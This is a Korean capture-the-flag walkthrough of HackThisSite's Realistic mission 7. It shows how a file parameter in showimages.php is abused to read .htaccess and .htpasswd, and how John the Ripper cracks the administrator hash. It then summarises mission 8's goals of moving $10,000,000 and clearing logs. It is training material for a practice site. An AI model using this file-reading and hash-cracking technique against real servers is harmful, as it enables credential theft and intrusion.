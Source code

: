 - http://www.hackthissite.org/missions/realistic/7/images/admin/.htpasswd
```
Page Not Found
The requested URL /missions/realistic/7/images/admin/.htaccess was not found on this server.
```

page not found를 봤지만 포기하지 않고, 본 페이지에서 이미지를 불러오는 방식을 응용해보기로 했다. 이미지 불러올 때 했던 것 처럼 php파일뒤에 get방식으로 불러와보자.

- http://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htaccess
  + 뭔가 실마리가 보이는듯하다.
```html
<center><a href="AuthName "Administration Access"
"><img src="AuthName "Administration Access"
" width=100></a> <a href="AuthType Basic 
"><img src="AuthType Basic 
" width=100></a> <a href="AuthUserFile /www/hackthissite.org/www/missions/realistic/7/images/admin/.htpasswd
"><img src="AuthUserFile /www/hackthissite.org/www/missions/realistic/7/images/admin/.htpasswd
" width=100></a> <a href="require valid-user
"><img src="require valid-user
" width=100></a> <a href=""><img src="" width=100></a> </center></font>
</td></tr></table>
```

- 거의 다 온 것 같다. 소스코드보기로 확인
- `http://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htpasswd`

```html
<center><a href="administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1
"><img src="administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1
" width=100></a> <a href=""><img src="" width=100></a> </center></font>
</td></tr></table>
```
  + `administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1`를 이전 레벨에서와 같이 카인&아벨에 넣어보았으나 그걸로는 안깨졌다. 칼리리눅스에 있는 john the ripper로 해결!

```
Loaded 1 password hash (FreeBSD MD5 [128/128 SSE2 intrinsics 12x]) shadow(administrator) guesses: 1  time: 0:00:00:00 DONE (Wed Nov 5 16:09:07 2014) c/s: 2500  trying: 123456 - diamond Use the "--show" option to display all of the cracked passwords reliably
```
위와 같은 메시지가 나오면서 크랙이 완료된다. `/images/admin`에 아래 코드를 넣으면 클리어! 

ID: administrator, password: shadow

## Level 8. United Banks Of America

### 문제 요약
-. Find the account of Gary Hunter (I don't know his account name
  - --> GaryWilliamHunter
2. Move the $10,000,000 into the account dropCash.
3. Clear The Logs, They're held in the folder 'logFiles'. © All Rights Reserved(Linkback is required)
  - linkback 필요하다는 것 생각해두기
